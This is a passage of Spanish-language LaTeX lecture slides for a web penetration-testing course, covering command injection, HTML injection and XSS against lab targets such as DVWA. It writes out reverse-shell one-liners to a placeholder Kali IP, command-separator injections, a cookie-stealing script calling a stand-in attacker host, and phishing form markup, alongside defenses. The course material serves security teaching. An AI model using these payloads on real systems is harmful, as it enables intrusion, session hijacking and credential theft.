  \item Procedimiento --- Reverse Shell
  \item 1. Identificar parámetro vulnerable a command injection:
  \item ?host=google.com $\rightarrow$ el servidor hace ping a ese host
  \item 2. Interceptar $\rightarrow$ Send to Repeater
  \item 3. Seleccionar el valor $\rightarrow$ clic derecho:
  \item Hackbar $\rightarrow$ Reverse shell $\rightarrow$ One Liner $\rightarrow$ nc
  \item 4. Añadir metacarácter separador antes del payload:
  \item ; o | o \&\& o \%0a (newline URL-encoded)
  \item 5. Introducir RHOST (IP de Kali) $\rightarrow$ OK
  \item 6. Poner Kali en escucha: nc -lvnp 4444
  \item 7. Send $\rightarrow$ la conexión reversa llega a Kali
  \item One-liners disponibles en HackBar
  \item nc (netcat): ;nc -e /bin/bash KALI\_IP 4444
  \item bash: ;bash -i \textgreater{}\& /dev/tcp/KALI\_IP/4444 0\textgreater{}\&1
  \item python: ;python3 -c 'import socket...'
  \item perl: ;perl -e 'use Socket...'
  \item Verificar la shell obtenida
  \item id, whoami, hostname
  \item python3 -c 'import pty;pty.spawn(\textquotedbl{}/bin/bash\textquotedbl{})' $\rightarrow$ TTY completa
  \item Fuente: BurpSuite.pdf --- Sección OS Command Injection
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl059_1.png}
\end{center}
\end{frame}

\section{Laboratorio}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item OWASP
  \item Footprinting web y Burp
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Laboratorio:}
\small
  \begin{itemize}
  \item Damn Vulnerable Web Aplication
    \begin{itemize}
    \item https://dvwa.co.uk/
    \item Metasploitable2
      \begin{itemize}
      \item \href{https://sourceforge.net/projects/metasploitable/files/Metasploitable2/}{https://sourceforge.net/projects/metasploitable/files/Metasploitable2/}
      \item Cuidado : la versión de DVWA que hay en metasploitable2 es inferior y, por tanto menos completa en cuanto a ataques soportados que las versiones posteriores de DVWA que se pueden conseguir a través del contenedor.
      \end{itemize}
    \item Docker
      \begin{itemize}
      \item \href{https://hub.docker.com/r/vulnerables/web-dvwa}{https://hub.docker.com/r/vulnerables/web-dvwa}
      \end{itemize}
    \end{itemize}
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Monta el laboratorio para este tema formado por:}
\small
  \begin{itemize}
  \item Atacante Kali/Parrot
  \item Aplicación web vulnerable: DVWA
    \begin{itemize}
    \item Tutorial: \href{https://blog.cyberethical.me/run-dvwa-from-docker}{https://blog.cyberethical.me/run-dvwa-from-docker}
    \end{itemize}
  \item Aplicación web vulnerable (alternativa): HackLabs (afsh4ck)
    \begin{itemize}
    \item +1000 vulnerabilidades web en Docker --- github.com/afsh4ck/HackLabs
    \item Vídeo: https://www.youtube.com/watch?v=pZFGQj3XrX8
    \end{itemize}
  \item Repaso:
    \begin{itemize}
    \item instalar Docker en Unix: \href{https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04-es}{https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04-es}
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl062_1.jpg}
\end{center}
\end{frame}

\section{HTML Injection}

\begin{frame}[allowframebreaks]{HTML Injection}
\small
  \begin{itemize}
  \item Fundamentos
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{HTML Injection --- Fundamentos}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item La app refleja la entrada del usuario en el HTML sin sanear;
  \item inyectas etiquetas HTML (no JavaScript). Si además se ejecuta
  \item JS, ya es XSS: HTMLi es el escalón previo.
  \item Tipos
  \item Reflejada: en la respuesta inmediata (parámetro de la URL).
  \item Almacenada: persiste (comentarios, perfil\dots{}) $\rightarrow$ afecta a otros.
  \item Impacto
  \item Defacement (alterar la página que ve la víctima).
  \item Phishing: formularios falsos que envían datos al atacante.
  \item Dangling markup: exfiltrar tokens/CSRF sin necesidad de JS.
  \item owasp.org $\cdot$ portswigger.net --- HTML Injection
  \item HTML Injection
  \item inyectas HTML
  \item (defacement $\cdot$ phishing)
  \item se ejecuta JavaScript $\rightarrow$
  \item XSS
  \item HTML + JavaScript
  \item (ejecución de código)
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{HTML Injection --- Explotación y defensa}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Detección
  \item \textless{}h1\textgreater{}test\textless{}/h1\textgreater{} o \textless{}b\textgreater{}test\textless{}/b\textgreater{}
  \item Si se renderiza como título/negrita $\rightarrow$ la entrada no se sanea.
  \item Explotación
  \item Enlace de phishing con apariencia legítima:
  \item \textless{}a href=\textquotedbl{}//attacker/login\textquotedbl{}\textgreater{}Verifica tu cuenta\textless{}/a\textgreater{}
  \item Form hijacking --- login falso que roba credenciales:
  \item \textless{}form action=//attacker/steal method=POST\textgreater{} \dots{} \textless{}/form\textgreater{}
  \item Dangling markup (exfiltración sin JS):
  \item \textless{}img src='//attacker/?h=
  \item Defensa
  \item Codificar la salida (HTML-encode) según el contexto; sanear
  \item con allowlist (DOMPurify); CSP. Nunca confiar en la entrada.
  \item PortSwigger Web Security Academy $\cdot$ DVWA para practicar
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- HTML Injection}
\footnotesize
  \begin{itemize}
  \item \href{https://owasp.org/www-community/attacks/HTML_Injection}{OWASP --- HTML Injection}
  \item \href{https://portswigger.net/web-security/cross-site-scripting}{PortSwigger --- del HTMLi al XSS}
  \end{itemize}
\end{frame}

\section{Cross-Site Scripting (XSS)}

\begin{frame}[allowframebreaks]{Cross-Site Scripting (XSS) --- qué es y tipos}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item El atacante inyecta código (JavaScript) en un sitio benigno que
  \item se ejecuta en el navegador de OTROS usuarios.
  \item Dónde inyectar
  \item Cualquier punto donde tu entrada se refleje en la página:
  \item \textless{}script\textgreater{}alert(1)\textless{}/script\textgreater{} $\cdot$ \textquotedbl{}\textgreater{}\textless{}img src=x onerror=alert(1)\textgreater{}
  \item Tipos
  \item Reflejado: el payload va en la petición y vuelve en la respuesta.
  \item Almacenado: se guarda (BD) y afecta a quien lo vea (persistente).
  \item DOM: el JS del cliente mete datos no confiables en el DOM
  \item (document.location $\cdot$ window.location $\cdot$ innerHTML).
  \item PortSwigger XSS $\cdot$ OWASP XSS
  \item Reflejado
  \item (en la respuesta)
  \item Almacenado
  \item (persistente, BD)
  \item DOM
  \item (en el cliente)
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- impacto y entrega}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Qué puede hacer el atacante
  \item Robar cookies de sesión $\cdot$ phishing (login falso) $\cdot$ defacement $\cdot$
  \item redirecciones forzadas $\cdot$ keylogging $\cdot$ acciones como el usuario.
  \item Encadenar HTML tras el JS
  \item paloma\textless{}script\textgreater{}alert('hacked')\textless{}/script\textgreater{}\textless{}h1\textgreater{}¿Qué tal?\textless{}/h1\textgreater{}
  \item Vías de inyección menos obvias
  \item Cabeceras HTTP (User-Agent) si se reflejan en una página.
  \item Phishing con XSS almacenado
  \item El XSS persistente inserta un login FALSO que envía las
  \item credenciales al atacante.
  \item PortSwigger XSS $\cdot$ OWASP
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- ataques avanzados}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Session hijacking (robo de cookies)
  \item \textless{}script\textgreater{}new Image().src='//atk/?c='+document.cookie\textless{}/script\textgreater{}
  \item Reinyectar la cookie (cookie manager) o recolector en PHP.
  \item Captura de hashes NTLM
  \item Inyectar un recurso UNC/pop-up $\rightarrow$ responder captura el hash
  \item NTLM $\rightarrow$ crackear con hashcat / john.
  \item RCE vía XSS
  \item Subir una php-reverse-shell y apuntar el XSS a ese recurso; o
  \item watering hole: XSS persistente sirve un .hta con PowerShell.
  \item BeEF $\cdot$ github.com/R0B1NL1N/WebHacking101
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- CSP, fuzzing, upload y defensa}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item CSP (Content Security Policy)
  \item Restringe de dónde se cargan scripts. No tiene bugs en sí, pero
  \item una CSP mal definida (unsafe-inline, dominios laxos) se bypassa.
  \item Fuzzing con Burp
  \item Marcar el punto con $\rightarrow$ Intruder con diccionario de payloads XSS.
  \item XSS en subida de archivos
  \item SVG con \textless{}script\textgreater{} (XSS almacenado) $\cdot$ PDF para exfiltrar datos.
  \item Defensa
  \item Codificar la salida según contexto; CSP estricta; sanitizar
  \item (DOMPurify); cookies HttpOnly; validar la entrada.
  \item PortSwigger XSS contexts $\cdot$ ver 'XSS --- Bypass de filtros y WAF'
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl092_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Realiza un ataque de tipo XSS reflejado y de tipo permanente en la aplicación DVWA
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl093_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS}
\small
  \begin{itemize}
  \item Por lo tanto, sobre esta vulnerabilidad, el atacante podría:
    \begin{itemize}
    \item Capturar y acceder a las cookies de sesión autenticada del usuario.
    \item Subir una página de phishing para atraer a los usuarios a acciones no intencionadas.
    \item Redirigir a los visitantes a otras secciones maliciosas.
    \item Expone los datos sensibles del usuario.
    \item Manipula la estructura de la aplicación web o incluso la desfigura.
    \end{itemize}
  \item No es una vulnerabilidad muy crítica:
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl094_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS}
\small
  \begin{itemize}
  \item Existen muchas formas y lugares donde inyectar el XSS. En muchas ocasiones, el lugar idóneo (si existe) dependerá de la web y su seguridad. Algunas inyecciones comunes son las siguientes:
    \begin{itemize}
    \item \textless{}script\textgreater{}alert(1)\textless{}/script\textgreater{}
    \item \textless{}img src=1 href=1 onerror=\textquotedbl{}javascript:alert(1)\textquotedbl{}\textgreater{}\textless{}/img\textgreater{}
    \item \textless{}iframe src=``javascript:alert(1)''\textgreater{}\textless{}/iframe\textgreater{}
    \item \textless{}input onfocus=javascript:alert(1) autofocus\textgreater{}
    \end{itemize}
  \item Defacement con XSS:
    \begin{itemize}
    \item \textless{}img src='' https://3.bp.blogspot.com/-JfL1o7oSnKI/VmodObHF9cI/AAAAAAAABLY/nKKRXw0-yiU/s1600/homero\_456\_336.jpg''=''Homero'' /\textgreater{}
    \end{itemize}
  \item Herramientas
    \begin{itemize}
    \item \href{https://github.com/epsylon/xsser}{Xsser} (un muy buen opcional)
    \item \href{https://github.com/enjoiz/XXEinjector}{XSS inyector}
    \item \href{https://github.com/kleiton0x00/XSScope}{XSScope}
      \begin{itemize}
      \item \href{https://infosecwriteups.com/increasing-xss-impact-using-xsscope-879669e6ba78}{tutorial}
      \end{itemize}
    \end{itemize}
  \item Lecturas:
    \begin{itemize}
    \item \href{https://infosecwriteups.com/all-about-file-upload-xss-c72c797aaba3}{leer1}, \href{https://blog.cobalt.io/a-pentesters-guide-to-cross-site-scripting-xss-19f60cf4255f}{leer2}, \href{https://www.cobalt.io/blog/a-pentesters-guide-to-cross-site-scripting-xss}{leer3}
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl095_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl096_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl096_2.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl096_3.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Haz un ataque de tipo defacement a partir de un XSS en DVWA}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl097_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Dos buenos lugares donde practicar inyecciones XSS son:}
\small
  \begin{itemize}
  \item \href{https://xss-game.appspot.com/}{https://xss-game.appspot.com/}
  \item \href{https://xss-quiz.int21h.jp/}{https://xss-quiz.int21h.jp/}
  \item ¿Serías capaz de pasarte todos los niveles?
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl098_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Puedes probar hasta 9 tipos diferentes de inyecciones en la aplicación vulnerable Web for Pentester:
    \begin{itemize}
    \item https://pentesterlab.com/exercises/web\_for\_pentester/course
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl099_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS basados en DOM}
\small
  \begin{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl100_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl100_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS en HTTP Header}
\small
  \begin{itemize}
  \item La idea es insertar el payload \textless{}script\textgreater{} en las cabeceras HTTP, por ejemplo en el User-Agent
    \begin{itemize}
    \item Haría falta que la web, en una página de log por ejemplo, cargará las cabeceras, para incrustar así el \textless{}script\textgreater{}
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl101_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Realiza un ataque de tipo DOM based XSS en la aplicación DVWA (docker)
    \begin{itemize}
    \item \href{https://portswigger.net/web-security/cross-site-scripting/dom-based}{Lectura}
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl102_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ataques avanzados con XSS}
\small
  \begin{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl103_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl103_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ataques avanzados con XSS}
\small
  \begin{itemize}
  \item La víctima usar el portal auténtico y al pulsar ``Submit''
    \begin{itemize}
    \item Le aparece el login falso:
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl104_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl104_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ataques avanzados con XSS}
\small
  \begin{itemize}
  \item El atacante se pone a la escucha con netcat y recibe:
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl105_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Haz un ataque de tipo phising a partir de un XSS en una web vulnerable a tu elección
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl106_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{RCE vía XSS mediante un ataque Watering Hole}
\small
  \begin{itemize}
  \item La idea es comprometer un sitio web mediante una inyección XSS y esperar que las posibles víctimas visiten ese dominio y descarguen la pieza de malware
  \item XSS
  \end{itemize}
